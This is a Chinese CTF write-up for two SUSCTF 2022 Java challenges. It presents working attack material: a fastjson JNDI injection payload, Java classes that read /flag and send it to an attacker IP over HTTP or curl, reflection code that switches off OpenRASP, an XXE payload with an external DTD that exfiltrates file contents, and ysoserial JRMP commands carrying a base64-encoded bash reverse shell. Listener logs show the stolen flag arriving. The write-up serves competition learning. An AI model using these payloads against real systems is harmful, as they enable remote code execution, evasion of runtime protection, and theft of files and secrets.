

# SUSCTF2022的两道Java复现

## 前言

比赛的时候没有看，一是因为摸了整个寒假，Java是一点想不起来了。。。二就是因为队里的心心直接秒了。。

不过这两道fastjson似乎都有一些奇奇怪怪的问题，复现的话从中学习一些东西就行了。

## baby gadget v1.0

admin admin123登录后台后给了lib，然后有个fastjson反序列化的输入，根据题目意思是自己找链子但是似乎网上的链子也能打通：

```
inputtext={"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"ldap://121.5.169.223:39543/Evil"}
```

复现的时候踩了很多坑，主要的问题就是一开始没想到外带，直接执行命令不成功，没法确实class到底加载成功没有，试了一下Java执行DNGLOG也没反应。。

### forkAndExec绕rasp

官方解法是绕过命令执行的失败，直接执行命令会有这个：

```
location.href="https://rasp.baidu.com/blocked2/?request_id=c5aa80028dda444da456f0a16663a09b"
```

查一下rasp就知道它是`Runtime application self-protection`，也是一种防御。

可以拿`forkAndExec`来绕过rasp，但是网上找到的我本地都运行不了，说`launchMechanism`字段不存在，暂时没搞明白咋回事。

### URL外带

第二种就是URL直接外带出来了：

```java
import java.io.BufferedReader;
import java.io.FileReader;
import java.net.HttpURLConnection;
import java.net.URL;
public class Evil {
    public Evil() throws Exception{
        String flag = "";
        String str;
        BufferedReader in = new BufferedReader(new FileReader("/flag"));
        while ((str = in.readLine()) != null) {
            flag += str;
        }
        System.out.println(flag);
        URL url = new URL("http://121.5.169.223:39454/?flag="+flag);
        HttpURLConnection con = (HttpURLConnection) url.openConnection();
        con.setRequestMethod("GET");

        //添加请求头
        con.setRequestProperty("User-Agent", "feng");
        int responseCode = con.getResponseCode();
    }
}

```

发起get请求直接把flag外带出来。

启动ldap server：

```shell
root@VM-0-6-ubuntu:~/java/jndi# java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://121.5.169.223:39777/#Evil" 39543
Listening on 0.0.0.0:39543
Send LDAP reference result for Evil redirecting to http://121.5.169.223:39777/Evil.class
Send LDAP reference result for Evil redirecting to http://121.5.169.223:39777/Evil.class


```

Evil.class：

```shell
root@VM-0-6-ubuntu:~/java/jndi# python3 -m http.server 39777
Serving HTTP on 0.0.0.0 port 39777 (http://0.0.0.0:39777/) ...
124.71.187.127 - - [02/Mar/2022 16:07:49] "GET /Evil.class HTTP/1.1" 200 -
124.71.187.127 - - [02/Mar/2022 16:24:27] "GET /Evil.class HTTP/1.1" 200 -


```

```shell
root@VM-0-6-ubuntu:~# nc -lnvp 39454
Listening on [0.0.0.0] (family 0, port 39454)
Connection from 124.71.187.127 43984 received!
GET /?flag=SUSCTF{Find_FastjSON_gadGet_is_so_Easy} HTTP/1.1
User-Agent: feng
Cache-Control: no-cache
Pragma: no-cache
Host: 121.5.169.223:39454
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive


```


### 关闭rasp

nepnep战队的姿势，学习一波

```java
import java.io.BufferedReader;
import java.io.FileReader;
import java.net.HttpURLConnection;
import java.net.URL;
public class Evil {
    public Evil() throws Exception{

            Class<?> clz = Thread.currentThread().getContextClassLoader().loadClass("com.baidu.openrasp.config.Config");
            java.lang.reflect.Method getConfig = clz.getDeclaredMethod("getConfig");
            java.lang.reflect.Field disableHooks = clz.getDeclaredField("disableHooks");
            disableHooks.setAccessible(true);
            Object ins = getConfig.invoke(null);

            disableHooks.set(ins,true);
            Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","curl http://121.5.169.223:39454 -F file=@/flag"});

    }
}
```

学习一波这个思路，这个思路很强，因为openrasp使用`javaagent` 机制来实现。在服务器启动时，可动态的修改Java字节码，实际上是注入到了内存中的，可以利用反射来修改配置信息，实现关闭rasp。nb学习了。


## baby gadget v2.0

首先是个xxe，外带出来：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://121.5.169.223:39801/evil.dtd">
%remote;]>
<user>
<number>
a
</number>
<name>
b
</name>
</user>
```

```xml
root@VM-0-6-ubuntu:~# cat evil.dtd
<!ENTITY % file SYSTEM 'file:///hint.txt'>
<!ENTITY % payload "<!ENTITY &#37; send SYSTEM 'http://121.5.169.223:39802/?content=%file;'>">
%payload;
%send;

```

```
root@VM-0-6-ubuntu:~/java/jndi# nc -lvvp 39802
Listening on [0.0.0.0] (family 0, port 39802)
Connection from ecs-159-138-123-251.compute.hwclouds-dns.com 55556 received!
GET /?content=58f9f32d633491243ee01cbe86f69be9.zip HTTP/1.1
User-Agent: Java/1.8.0_191
Host: 121.5.169.223:39802
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive


```

下载`58f9f32d633491243ee01cbe86f69be9.zi`后得到一些信息：

```
JRE: 
8u191
Dependency:
commons-collections3.1
```

然后是一些类似需要逆向的代码，大致看看是POST似乎访问`/bf2dcf6664b16e0efe471b2eac2b54b2`传参数0然后会对它进行base64解码一次然后再来一次黑名单过滤，然后反序列化。

黑名单：

```
"java.util.Hashtable"
"java.util.HashSet"
"java.util.HashMap"
"javax.management.BadAttributeValueExpException"
"java.util.PriorityQueue"
```


非预期就是可以直接拿JRMP去打。

```shell
java -jar ysoserial.jar JRMPClient 121.5.169.223:39555|base64 -w 0
java -cp ysoserial.jar ysoserial.exploit.JRMPListener  39555 CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8jEuNS4xNjkuMjIzLzM5Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}"
```

> 1. 攻击方在自己的服务器使用`exploit/JRMPListener`开启一个rmi监听
> 2. 往存在漏洞的服务器发送`payloads/JRMPClient`，payload中已经设置了攻击者服务器ip及JRMPListener监听的端口，漏洞服务器反序列化该payload后，会去连接攻击者开启的rmi监听，在通信过程中，攻击者服务器会发送一个可执行命令的payload（假如存在漏洞的服务器中有使用`org.apacje.commons.collections`包，则可以发送`CommonsCollections`系列的payload），从而达到命令执行的结果。



预期解的话就是自己挖链子，对于CC5或者CC6来说，ban掉的只是入口处的类，再另找能触发到比如hashCode函数的起始链就可以了。


## 总结

当时预期解在这种题目环境下比较奇怪。。。非预期反而感觉很有意思hhh。后续再把JRMP看看了。